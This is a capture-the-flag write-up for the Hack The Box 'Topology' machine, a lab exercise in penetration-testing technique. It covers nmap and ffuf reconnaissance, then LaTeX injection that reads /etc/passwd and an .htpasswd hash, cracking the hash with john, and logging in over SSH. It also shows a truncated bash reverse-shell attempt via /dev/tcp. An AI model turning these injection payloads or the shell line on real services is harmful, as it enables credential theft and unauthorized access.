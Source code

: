 # Topology Write-up

Start off with the usual; I always go for adding the IP to my hosts file as this is faster and easier.

```bash
echo "${IP_of_Box} topology.htb" | sudo tee -a /etc/hosts
```

Then I move to my first check; nmap

```bash
nmap -sCV topology.htb
```

This results in the following output:

```bash
┌──(kelly㉿Stardust)-[~/boxes]
└─$ nmap -sCV topology.htb
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-05 12:08 CEST
Nmap scan report for topology.htb (10.129.107.168)
Host is up (0.022s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.64 seconds
```

We can clearly see that we have port 22 and 80 open. Let's check out the website.
It's some kind of university site; with a few software options:

- LaTeX Equation Generator
- PHPMyRefDB
- TopoMisk
- PlotoTopo

Only the LaTeX one is accessible; so let's check that out.

We navigate to http://latex.topology.htb/equation.php but it's an 404, which is normal considering the DNS name isn't resolving. So let's add it to our hosts file.

```bash
echo "${IP_of_Box} latex.topology.htb" | sudo tee -a /etc/hosts
```

And we're in. We can enter LaTeX code and it will generate an image for us. Let's try to get a reverse shell.

```latex
\documentclass{article}
\usepackage{graphicx}
\begin{document}
\immediate\write18{bash -c 'bash -i >& /dev/tcp/
```

No dice; 'Illegal Command'. It may be a little over the top. Let's try something simpler.

So we hit google; and find this [article](https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection).

We also note down the URL of the error.

`http://latex.topology.htb/equation.php?eqn=%5Cinput%7B%7C%22%2Fbin%2Fhostname%22%7D+%5Cinput%7B%7C%22extractbb+%2Fetc%2Fpasswd+%3E+%2Ftmp%2Fb.tex%22%7D&submit=`

As a means of an error, I actually navigated to http://latex.topology.htb and am presented with all files within the webserver. There's no index. Here, I actually find which version of pdfTex is running in the logs. pdfTeX, Version 3.14159265-2.6-1.40.20
In these logs, I also see why the `\write18` command is not working. It's restricted. But we also see that & line parsing is enabled.

```text
entering extended mode
 restricted \write18 enabled.
 %&-line parsing enabled.
```

And in HackTricks, we find "You might need to adjust injection with wrappers as `\[` or `$`."
And try what they list to get info.

```latex
\input{/etc/passwd} # Nope
\lstinputlisting{/etc/passwd} # this one does work
```

And there we have it - we have our user and their homedir.

Let's try to get the user flag this way; `$\lstinputlisting{/home/vdaisley/user.txt}$`
No dice, we need ssh access. Alright, nmap said this was Apache 2.4.41, it's possible passwords are stored in the .htpasswd file. But where the beep is this file?

ffuf to the rescue.

````bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://topology.htb/ -H "Host: FUZZ.topology.htb"
```
This tells me straightaway we've got stats and dev going. Let's check out both.
http://stats.topology.htb (after adding it to my hosts file too) is just a graph, useless.
http://dev.topology.htb is a login page. This means we can poke around there. Since this is a login box from the browser, this must be .htaccess protected. Let's try to get the .htaccess file.


```latex
$\lstinputlisting{/var/www/dev/.htaccess}$
````

Oh baby, this literally says "Go check .htpasswd. So let's do that.

````latex

```latex
$\lstinputlisting{/var/www/dev/.htpasswd}$
````

And there it is.

`vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zsAIbIxTY0`

But this is a hash. Let's crack it. Since my colleague already explained this to me - ha!

```bash
john -w /usr/share/wordlists/rockyou.txt hashed
```

Now once we have our foothold via SSH; we've got the user flag. Let's get root.

```bash
sshpass -p 'password' ssh vdaisley@topology.htb
whoami
hostname
cat user.txt
```
